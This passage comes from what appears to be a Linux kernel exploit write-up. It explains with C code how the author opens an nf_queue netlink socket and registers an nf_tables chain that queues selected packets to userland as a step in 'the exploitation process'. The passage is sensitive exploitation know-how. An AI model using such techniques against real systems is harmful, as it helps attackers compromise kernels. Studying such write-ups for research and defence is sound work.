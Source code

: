```c
        exit(EXIT_FAILURE);
    }

    mnl_socket_setsockopt(nlsock_queue, NETLINK_NO_ENOBUFS, &ret, sizeof(int));

    return ret;
}
```

[1] : Open a Netlink socket to communicate with the `nf_queue` module. Userland receives notifications about queued packets through this socket. It is also used to send a verdict (such as `NF_ACCEPT`, `NF_DROP`, or `NF_REPEAT`) to control what happens to the packet next. \
[2] : The `nf_queue` module supports multiple queues. We select a specific queue (e.g., `QUEUE_NUM`) to use during the entire exploitation process.

**Setup Queue Point**

Use the `queue` expression in `nf_tables` to setup queue point. 

I wrote a function called `setup_nft_queue_with_condition()` to register a chain at the given hook (`hooknum`) and priority (`prio`). The chain contains a rule with a `queue` expression that queues packets to userland:
```c
// Register a chain with a rule that queues packets based on the first byte of their payload
int setup_nft_queue_with_condition(char *chain_name, uint32_t hooknum, uint32_t prio, uint8_t byte_to_compare) {
    chain c = make_chain(base_table, chain_name, 0, hooknum, prio, NULL);

    expr e_payload = make_payload_expr(NFT_PAYLOAD_TRANSPORT_HEADER, UDP_HEADER_SIZE, 1, NFT_REG32_00);
    expr e_cmp = make_cmp_expr(NFT_REG32_00, NFT_CMP_EQ, byte_to_compare);
    expr e_queue = make_queue_expr(QUEUE_NUM, 0, 0);

    expr list_e[3] = {e_payload, e_cmp, e_queue};
    rule r = make_rule(base_table, chain_name, list_e, ARRAY_SIZE(list_e), NULL, 0, 0);

    batch b = batch_init(MNL_SOCKET_BUFFER_SIZE * 2);
    batch_new_chain(b, c, family);
    batch_new_rule(b, r, family);

    return batch_send_and_run_callbacks(b, nlsock, NULL);
}
```

Naturally, we don't want to queue all packets, only specific ones. Others should pass through automatically without notify userspace. To handle this, I added two more expressions before the `queue` expression: `payload` and `cmp`.

Here's how it works: When a packet hits the queue point, the rule extracts the first byte of the packet's payload (using the `payload` expression) and compares it with a target value (`byte_to_compare`) using the `cmp` expression.

- If it matches, the packet is queued to `QUEUE_NUM`.
- If it doesn't, the packet passes through as normal.
